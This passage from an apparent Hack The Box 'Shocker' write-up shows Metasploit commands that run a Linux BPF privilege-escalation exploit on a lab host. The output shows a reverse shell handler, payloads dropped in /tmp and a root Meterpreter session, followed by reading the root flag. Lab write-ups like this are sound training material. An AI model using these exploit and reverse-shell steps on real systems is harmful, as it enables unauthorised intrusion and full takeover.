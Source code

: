 Use the module and configure it to use the correct session:

```bash
msf6 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 2
session => 2
msf6 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost tun0
lhost => tun0
msf6 exploit(linux/local/bpf_sign_extension_priv_esc) > set lport 5000
lport => 5000
```

After settings all the options, I run the exploit:

```bash
msf6 exploit(linux/local/bpf_sign_extension_priv_esc) > run

[*] Started reverse TCP handler on 10.10.17.28:5000 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.EvjJLoH' (22328 bytes) ...
[*] Writing '/tmp/.OKXwuzX' (250 bytes) ...
[*] Launching exploit ...
[*] Sending stage (3012548 bytes) to 10.10.10.56
[*] Cleaning up /tmp/.OKXwuzX and /tmp/.EvjJLoH ...
[*] Meterpreter session 4 opened (10.10.17.28:5000 -> 10.10.10.56:44840) at 2021-08-18 20:41:23 +0200

meterpreter > getuid
Server username: root @ Shocker (uid=0, gid=0, euid=0, egid=0)

```

And a root shell spawned

## Get Root Flag

---

I already have a root shell, the flag is ready to be collected:

```bash
meterpreter > cat /root/root.txt
ca*************************9569a
```

# Beyond Root

---

## Exploitation Without Metasploit

---

The Exploit with the CGI scripts can also be manually done.
